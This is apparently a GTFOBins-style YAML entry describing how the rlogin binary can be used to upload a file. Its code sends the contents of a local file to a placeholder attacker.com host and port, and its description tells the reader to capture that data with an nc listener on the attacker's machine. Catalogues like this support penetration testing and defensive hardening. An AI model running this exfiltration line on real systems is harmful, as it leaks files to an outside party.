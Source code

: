 ```yaml
---
functions:
  file-upload:
    - description: Send contents of a file to a TCP port. Run `nc -nlvp $RPORT > "file to save"` on the attacker system to capture the contents.
      code: |
        RHOST=attacker.com
        RPORT=12345
        LFILE=file_to_send
        rlogin -l "$(cat $LFILE)" -p $RPORT $RHOST
---
```

